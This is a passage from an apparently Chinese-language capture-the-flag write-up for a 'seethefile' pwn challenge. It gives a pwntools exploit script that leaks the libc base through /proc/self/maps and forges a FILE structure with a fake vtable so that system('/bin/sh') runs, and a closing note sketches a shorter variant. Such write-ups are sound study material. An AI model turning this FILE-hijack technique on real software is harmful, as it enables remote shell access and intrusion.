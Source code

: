 ### EXP脚本

细节：泄露libc时，由于buffer长度问题，libc基址不会在第一次就读取出来。但是我发现这一地址就是libc基址减去0x1000的偏移，因此我在这里加上0x1000就可以完成泄露。（一开始没发现这个，一位这个地址就是libc基址，因此卡了好久好久……）

最后输入选项的时候，payload以5开头，后面是ROP gadget。这样 `atoi(payload)` 的结果就是5，也就是选择exit功能。

```python
# 0x0005ae90 : xor eax, eax ; add esp, 0x6c ; ret

def pwn():

    # leak libc_addr
    io.sendlineafter(b"Your choice :", b"1")
    io.sendlineafter(b"see", b"/proc/self/maps")
    io.sendlineafter(b"Your choice :", b"2")
    io.sendlineafter(b"Your choice :", b"3")
    io.recvuntil(b"[heap]\n")
    libc_base = int(io.recvuntil(b"-")[:-1].decode(), 16) + 0x1000
    success("libc_base -> "+hex(libc_base))
    # libc_base = int(input("addr:"), 16)

    # create rop chain
    payload = b"5" + b"a"*0xb
    # payload += pack(elf.symbols["puts"]) + pack(0) + pack(0x08048C90) # test
    payload += pack(libc_base + libc.symbols["system"]) + pack(0) + pack(0x0804B260)

    # fake file
    fileStr = FileStructure()
    fileStr.flags=0xffffdfff    # no _IO_IS_FILEBUF
    fileStr.vtable=0x0804B260

    name = b'/bin/sh\0' + pack(libc_base + 0x0005ae90)  # fake vtable
    name += b'a'*0x14
    name += pack(0x0804B280+0x10)+b'a'*0xc  # fake FILE pointer
    name += bytes(fileStr)
    
    io.sendlineafter(b"Your choice :", payload)
    io.sendlineafter(b"name", name)

    io.interactive()
```

后记：后来发现其实根本不用ROP，由于调用vtable中的函数时，参数就是自己的file pointer，所以只要在flag字段后面加上";/bin/sh;"，然后把 `__finish` 设置成system地址，就可以直接get shell。见[R4bb1t师傅的博客](https://n0va-scy.github.io/2019/07/03/pwnable.tw/#seethefile)
